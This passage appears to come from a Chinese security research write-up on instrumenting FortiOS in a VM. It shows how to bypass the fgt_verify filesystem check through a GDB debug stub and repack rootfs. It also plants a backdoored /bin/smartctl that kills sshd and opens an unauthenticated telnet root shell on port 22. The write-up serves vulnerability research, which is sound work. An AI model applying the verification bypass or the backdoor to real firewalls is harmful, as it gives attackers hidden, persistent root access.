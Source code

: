 /bin/init 程序 Patch 前后对比：

patch前：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-254b7fa74773e9978447f36440a8b011bbe50956.png)

patch 后：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-324cc188b9e18ca31376baf0c3b5203d870c8a08.png)

rootfs.gz 重打包命令

```shell
find . | cpio -H newc -o > ../rootfs
gzip rootfs
```

编辑虚拟机 vmx 文件，增加 debugStub，然后 GDB 调试 Fortios 系统内核

```c
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12345"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12346"
```

在 fgt\_verify 处下断点，修改其返回值为0，并修改 /sbin/init 字符串为 /bin/init.

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-1b1502376ccd2899dcd6ae2ed3bae340277375d8.png)

然后让内核继续运行，内核会启动修改过的 /bin/init 并绕过文件系统的校验.

‍

#### 在文件系统中植入后门

在命令行中执行 `diagnose hardware smartctl`​ 系统会执行 /bin/smartctl 程序，我们可以通过修改 smartctl 来实现执行任意 shell 命令.

操作流程：

1. 首先下载静态链接的 busybox 并将其放到 /bin/busybox 目录.
2. 然后静态编译后门程序，替换 /bin/smartctl
3. 重新打包 rootfs.gz
4. 进入系统后，执行 `diagnose hardware smartctl`​ ，触发后门的执行，会在 22 端口监听 telnet 服务.
5. 从其他机器上 telnet 登录即可拿到 Fortios 的 shell.

后门程序代码：

```shell
#include <stdio.h>

void shell(){
        system("/bin/busybox ls", 0, 0);
        system("/bin/busybox id", 0, 0);
        system("/bin/busybox killall sshd && /bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22", 0, 0);
        return;
}

int main(int argc, char const *argv[])
{
        shell();
        return 0;
}
```
